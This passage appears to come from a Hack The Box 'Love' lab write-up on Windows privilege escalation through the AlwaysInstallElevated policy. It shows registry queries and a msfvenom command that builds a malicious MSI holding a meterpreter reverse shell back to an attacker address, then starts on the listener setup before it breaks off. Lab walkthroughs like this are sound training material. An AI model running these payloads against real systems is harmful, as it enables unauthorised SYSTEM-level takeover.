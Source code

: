 ## <u>AlwaysInstallElevated</u>
> As we all are aware that Windows OS comes installed with a Windows Installer engine which is used by <font color="yellow">MSI packages</font> for the installation of applications. These MSI packages can be installed with elevated privileges for non-admin users
- How, we wanna know if this `AlwaysInstallElevated` can use?
	- If these 2 registers are enable (value is 0x1)
	- then, users of any privilege can install (execute) `*.msi` files as `NT AUTHORITY/SYSTEM`
	- Source
		- [HackTricks - windows-local-privilege-escalation](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated)

<br>

### <u>Checking the register</u>
- Let's try to do it.
- First, let's check the value of the 2 registers


```powershell
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

- the result

![1](/assets/images/htb/love/register2.png)

- So, the value of those `2 registers are in facts 0x1`
- Now, we know we can exploit it. 

### <u>Generate MSI files</u>
- So, I'm gonna generate `MSI package file` with `msfvenom`.

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.14.14 lport=9902 -f msi > lol.msi
```

- After successfully generate the files
- Then, `upload` the file into the target machine.

### <u>exploit/multi/handler</u>
- Before we can execute it.
- We need to set up the `"listener"` for our meterpreter reverse shell
